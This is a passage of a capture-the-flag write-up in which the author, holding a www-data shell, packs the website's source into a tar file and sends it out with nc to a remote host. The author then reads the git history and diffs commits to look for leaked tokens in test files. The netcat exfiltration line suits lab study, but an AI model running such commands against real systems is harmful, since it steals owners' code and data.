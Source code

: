 So I have to bundle the entire website
```
www-data@intentions:~/html/intentions$ tar -cf /tmp/site.tar .

www-data@intentions:~/html/intentions$ cat /tmp/site.tar | nc 10.10.16.5 4444

```

Then we can use our local machine 
```
git log --oneline 
1f29dfd (HEAD -> master) Fix webpack for production
f7c903a Test cases did not work on steve's local database, switching to user factory per his advice
36b4287 Adding test cases for the API!
d7ef022 Initial v2 commit
```
Exploring the differences in the commits (with `git diff commit1 commit2`), `/tests/Feature/Helper.php` is added in the second commit, “Adding test cases for the API!”:
```
git diff d7ef022 36b4287                            
diff --git a/tests/Feature/APITest.php b/tests/Feature/APITest.php
new file mode 100644
index 0000000..ffa5b53
--- /dev/null
+++ b/tests/Feature/APITest.php
@@ -0,0 +1,91 @@
+<?php
+
+namespace Tests\Feature;
+use Illuminate\Testing\Fluent\AssertableJson;
+use Illuminate\Foundation\Testing\RefreshDatabase;
+use Illuminate\Foundation\Testing\WithFaker;
+use Tests\TestCase;
+
+class APITest extends TestCase
+{
+    public function testImagesUnauthorized()
+    {
+        $response = $this->getJson('/api/v1/gallery/images');
+
+        $response->assertStatus(400);
+    }
+
+    public function testImagesAuthorized()
+    {
+        $response = $this->withCookie('token', Helper::getToken($this))->getJson('/api/v1/gallery/images');
+
+        $response->assertStatus(200)->assertJson(fn (AssertableJson $json) =>
+            $json->has('data')
+                ->has('status')
+        );
+    }
+
+    public function testUserFeedUnauthorized()
+    {
+        $response = $this->getJson('/api/v1/gallery/user/feed');
+
+        $response->assertStatus(400);
+    }
+
+    public function testUserFeedAuthorized()
+    {
+        $response = $this->withCookie('token', Helper::getToken($this))->getJson('/api/v1/gallery/images');
```